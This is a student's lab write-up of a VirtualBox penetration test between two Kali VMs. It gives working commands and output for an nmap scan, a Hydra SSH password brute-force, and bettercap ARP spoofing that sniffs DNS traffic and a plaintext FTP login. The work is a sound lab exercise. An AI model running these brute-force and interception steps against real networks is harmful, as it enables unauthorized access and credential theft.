


# Penetration Testing Lab Using Oracle VirtualBox with Bettercap 
Harrison Coutee - COMP 324 - April 24, 2025


## Installing VirtualBox / Creating Kali VMs / Networking

From previous assignments, I had already created two VMs, KaliHost and KaliVictim. I used a NAT Network adapter so that I could have them connect to each other and the internet, and also forwarded port 22 to my workstation machine so that I could SSH into the VMs. For some reason, the VirtualBox guest tools didn't work in either machine, so using SSH was the best way so that I could easily copy and paste from my host to the VMs.




> Note: both of the VMs are on NatNetwork1. I was having issues connecting them before, so I also enabled promiscuous mode on the NAT adapter.

## Target analysis

In order to make sure that the VMs could see each other on the network, I ran nmap on my "host" VM, using the victim's IP (10.0.2.6) which worked just fine:

```
kali@kali - Harrison Coutee - 201303511 ~ % sudo nmap -A 10.0.2.6
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-24 18:15 EDT
Nmap scan report for 10.0.2.6
Host is up (0.000089s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.9p2 Debian 2 (protocol 2.0)
| ssh-hostkey:
|   256 c5:ad:40:fe:b3:db:c1:2b:0d:a7:b2:df:5b:19:83:d0 (ECDSA)
|_  256 06:c7:05:f9:a5:76:15:4c:55:55:ce:cc:d0:bc:3b:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.63 ((Debian))
|_http-server-header: Apache/2.4.63 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:08:1A:50 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Linux 4.19 (97%), Linux 5.0 - 5.14 (97%), OpenWrt 21.02 (Linux 5.4) (97%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (97%), Linux 6.0 (95%), Linux 5.4 - 5.10 (91%), Linux 2.6.32 (91%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.09 ms 10.0.2.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.95 seconds
```

We have an open SSH server and a web server, but no other ports are open. This is a little weird since I know that an FTP server is running on the victim VM, but nmap doesn't show it. We also found out that the server is running Linux (which is expected), and we know that the server is using OpenSSH 9.9p2, and Apache 2.4.63. This would be helpful for metasploit, but these versions are so new that there are no public exploits for them.

I wasn't really sure what to run in metasploit - but it looks like we already have some information about the server.

## Hydra Brute Force

Since we know there's an SSH server running, we can try to use hydra to brute force the login credentials. Using an "educated guess ;)", I used the `kali` username and `rockyou.txt`.

```
kali@kali - Harrison Coutee - 201303511 ~ % hydra -l kali -P /usr/share/wordlists/passlist.txt 10.0.2.6 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-24 18:25:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1310542 login tries (l:1/p:1310542), ~81909 tries per task
[DATA] attacking ssh://10.0.2.6:22/
[22][ssh] host: 10.0.2.6   login: kali   password: kali
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-24 18:25:13
```

Nice. The password is `kali`.

## ARP spoofing

Since the victim machine is on the same network as the host, we can use ARP spoofing to intercept outgoing/incoming traffic. I used bettercap to do this.

I ran this command to start bettercap on the eth0 interface:

```
kali@kali - Harrison Coutee - 201303511 ~ % sudo bettercap -iface eth0
```

Then inside bettercap, I ran:

```bash
set arp.spoof.targets 10.0.2.6  # victim ip
net.probe on
arp.spoof on
net.sniff on
```

Wow! The victim is browsing reddit instead of working on their assignment.

```
10.0.2.0/24 > 10.0.2.5  » [18:29:29] [net.sniff.dns] dns 1.1.1.1 > 10.0.2.6 : reddit.com is 2a04:4e42::396, 2a04:4e42:600::396, 2a04:4e42:200::396, 2a04:4e42:400::396
10.0.2.0/24 > 10.0.2.5  » [18:29:29] [net.sniff.dns] dns 1.1.1.1 > 10.0.2.6 : reddit.com is 151.101.193.140, 151.101.1.140, 151.101.129.140, 151.101.65.140
```

They even tried to log in to an FTP server:
```
10.0.2.0/24 > 10.0.2.5  » [18:30:56] [net.sniff.dns] dns 1.1.1.1 > 10.0.2.6 : ftp.dlptest.com is 44.241.66.173
10.0.2.0/24 > 10.0.2.5  » [18:31:08] [net.sniff.ftp] ftp 10.0.2.6 > 44.241.66.173:ftp - USER michaeljackson
10.0.2.0/24 > 10.0.2.5  » [18:31:08] [net.sniff.ftp] ftp 10.0.2.6 > 44.241.66.173:ftp - USER michaeljackson
10.0.2.0/24 > 10.0.2.5  » [18:31:10] [net.sniff.ftp] ftp 10.0.2.6 > 44.241.66.173:ftp - PASS heehee
10.0.2.0/24 > 10.0.2.5  » [18:31:10] [net.sniff.ftp] ftp 10.0.2.6 > 44.241.66.173:ftp - PASS heehee
```

Very cool.
